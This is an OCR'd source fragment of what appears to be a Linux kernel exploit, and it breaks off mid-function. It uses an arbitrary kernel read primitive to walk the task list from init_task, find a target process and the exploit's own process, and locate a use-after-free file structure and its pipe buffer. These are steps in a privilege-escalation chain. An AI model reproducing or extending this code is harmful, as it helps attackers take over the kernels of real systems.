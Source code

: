 ```c

void traverse_tasks(void)
{    
    // Process name buf
    char current_comm[16] = { 0 };

    // Get the next task after init
    uint64_t current_next = read_8_at(g_init_task + TASKS_NEXT_OFF);
    uint64_t current = current_next - TASKS_NEXT_OFF;

    if (!task_valid(current))
    { 
        err("Invalid task after init: 0x%lx", current);    
    }

    // Read the comm
    read_comm_at(current + COMM_OFF, current_comm);
    //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

    // While we don't have NULL, traverse the list
    while (task_valid(current))
    {
        current_next = read_8_at(current_next);
        current = current_next - TASKS_NEXT_OFF;

        if (current == g_init_task) { break; }

        // Read the comm
        read_comm_at(current + COMM_OFF, current_comm);
        //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

        // If we find the target comm, save it
        if (!strcmp(current_comm, TARGET_TASK))
        {
            g_target_task = current;
        }

        // If we find our target comm, save it
        if (!strcmp(current_comm, OUR_TASK))
        {
            g_our_task = current;
        }
    }
}

void find_pipe_buf_addr(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our fd in the array
    files_ptr += (sizeof(uint64_t) * g_uaf_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

    // Calculate the offset
    g_off = curr_file & 0xFFF;

    // Set the globals
    g_file_addr = curr_file;
    g_pipe_buf = g_file_addr - g_off;

```